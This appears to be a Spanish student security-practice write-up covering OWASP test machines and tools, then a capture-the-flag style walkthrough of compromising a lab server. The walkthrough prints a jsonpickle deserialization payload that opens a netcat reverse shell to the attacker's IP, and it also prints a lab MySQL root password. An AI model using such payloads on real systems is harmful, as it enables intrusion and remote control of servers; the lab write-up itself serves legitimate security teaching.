# Practica 3 - Tema 6 - Ejercicios 2 y 3

## Ejercicio 2

### Máquinas de OWASP

Toda la información que he sacado viene de la página oficial de OWASP y de la máquina virtual OWASP Broken Web Application que contiene una amplia colección de máquinas de prueba. Solo se van a hablar de las máquinas que se encuentran en OWASP BWAPP. Para ver todas las máquinas de OWASP, seguir el siguiente enlace: [OWASP PROJECTS](https://owasp.org/projects/)

Las máquinas que ha desarrollado OWASP se pueden dividir en dos categorías:

- **Máquinas de entrenamiento**: son máquinas que contienen un conjunto de vulnerabilidades que se pueden utilizar para entrenar a un atacante.
  - OWASP WebGoat
  - OWASP WebGoat.NET
  - OWASP EASAPI Java SwingSet Interactive
  - OWASP Mutillidae II
  - OWASP RailsGoat
  - OWASP Bricks
  - OWASP Security Rainbow

- **Máquinas realistas**: son máquinas que simulan ser "reales" para poder realizar pruebas de penetración.
  - OWASP Vicnum
  - OWASP 1-Liner

Para realizar las pruebas de los siguientes apartados yo he seleccionado **OWASP Vicnum**.

### Fases Web Application Security Testing ~ OWASP

- **Recopilacion de información**: Realizar pruebas para obtener la mayor informacion que permitan obtener una mejor compresión de sitio web e información sensible.
- **Configuración y despligue**: Controles de seguridad en la configuración de toda la aplicación.
- **Gestión de identidad**: Controles de seguridad con roles, usuarios y políticas de acceso.
- **Autentificación**: Politicas de seguridad como las contraseñas.
- **Autorización**: Controles de segurad para evitar escaladas de privilegios o evasión de autentificación.
- **Manejo de sesiones**: Politicas de seguridad relaccionados con las cookies y sesiones.
- **Validación de inputs**: Controles de seguridad para evitar el ingreso de datos no deseados.
- **Manejo de errores**: Correcto funcionamiento de los mensajes de error de la aplicación.
- **Criptografía debil**: Controles para comprobar la seguridad y robustez de los mecanismos de criptografía de la aplicación.
- **Lógica de la aplicación**: Controles de comportamiento de la apliación frente a usos inesperados que puedan ocasionar vulnerabilidades.
- **Pruebas de cliente**: Pruebas de seguridad desde el punto de vista del usuario.
- **Pruebas de API**: Pruebas de seguridad desde el punto de vista de la API.

### Fase de autorización - OWASP Vicnum

1. Pruebas de ruta transversal (OWASP-AZ-001)
   - No se ha encontrado ningún LFI o RFI en la aplicación.

2. Pruebas de saltarse el esquema de autorización (OWASP-AZ-002)
   - Se han encontrado dos vulnerabilidades de exploración de directorios
     - <http://192.168.1.119/vicnum/cgi-bin/>
     - <http://192.168.1.119/vicnum/images/>
3. Pruebas de escalación de privilegios (OWASP-AZ-003)
   - No se ha encontrado ninguna vulnerabilidad de escalación de privilegios.

### Herramientas de OWASP

Información sacada de la página de [Free for Open Source Application Security Tools](https://owasp.org/www-community/Free_for_Open_Source_Application_Security_Tools)

OWASP ha desarrollado dos tipos de herramientas:

- **Herramientas DAST**: [Dynamic Application Security Testing](https://owasp.org/www-community/Vulnerability_Scanning_Tools)
  - OWASP ZAP
  - OWASP Purpleteam
- **Dector de vulnerabilidades conocidas**
  - OWASP Dependency Check
  - OWASP Dependency Track

#### Pruebas con OWASP ZAP

OWASP ZAP es una herramienta de seguridad que permite realizar pruebas de seguridad de aplicaciones web.

Para empezar seleccionas en inicio rápido la opción **Automated Scan**, acto seguido añades la dirección de la aplicación web que quieres probar y pulsas el botón **Atacar**.

Ahora la herramienta, utilizando un spider, va a buscar todas las vulnerabilidades que se puedan encontrar en la aplicación web.

Una vez terminado se puede ver el resultado en la pestaña **Alertas** y también generar un informe html con información detallada de cada vulnerabilidad y estado general de la aplicacion.





## Ejercicio 3

Empezamos haciendo un escaneo de NMAP para obtener la información de los puertos abiertos y sus servicios.



Como vemos que tiene el puerto 80 abierto con el Apache vemos como es la página web que hostea.

Vemos que es solo una página web con una imagen de fondo.

Pasamos el gobuster para obtener la información de los archivo que se encuentran en el directorio /var/www/html/



Nada más empezar vemos que hay un sea.php y atlantis.php por lo que vamos a ver que son.



Tanto sea solo te mueve a la página de atlantis.php.

Atlantis.php contiene un formulario de login por lo que ya podemos empezar a probar cosas.

Probamos con un SQL Injection para ver si podemos loguearnos.

Vemos que con un SQL Injection básico nos podemos loguear.



Nos dirigen a sea.php y vemos que nos muestra un selector y dependiendo de lo que seleccionemos nos muestra una descripción. Al mirar a la url podemos ver que las descripciones son otros archivos incluidos en la página mediante la url por lo que podemos hacer un ataque de Local File Inclusion.



Vemos que está capada la lectura de /etc/passwd. Por lo que miramos otro archivo importante, /var/log/auth.log.



Este archivo si que nos lo imprime por lo que podemos hacer un ataque de SSH Log Poisoning. Injectamos código en el auth.log mediante SSH y luego lo imprimimos en la página para que se ejecute.





Vemos que funciona probando con el comando pwd.



Y ahora pudiendo ejecutar comandos en el servidor, creamos una revere shell para tener mayor control.



Si leemos el archivo de atlantis.php podemos encontrar la clave de root de la base de datos MySQL.



    Username: root
    Password: yVzyRGw3cG2Uyt2r

Vemos que podemos entrar y acceder a la información de las bases de datos.



Encontramos al cuenta de admin con su hash.



No podemos deshashear la contraseña del admin por lo que buscamos otras opciones.

Enumeramos los puertos que están escuchando localmente.



Como no podemos ver el por el puerto 8080, tenemos que hacer un Port Forward.

Lo dirigimos al 8081 y así desde nuestra maquina podemos acceder a ver la página.



Nos aparece una página con un boton que cuando clickamos aparece una imagen.





Ahora analizamos la cookie y vemos que tiene un codigo en base64





Nos sale: {"py/object":"app.User", "username":"Poseidon"}

La apliación viene de un código Python en /opt/code que utiliza la librería Json Pickle.

Con esta información podemos hacer un payload para injectar código y crear una reverse shell.

    {"py/object":"main.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": [/bin/nc -e /bin/bash 192.168.1.109 1234"]}, null, null, null]}

Lo encriptamos con base64 y la cambiamos por la verdadera.



Y una vez lo enviamos obtenemos el root.

Y podemos ver la flag


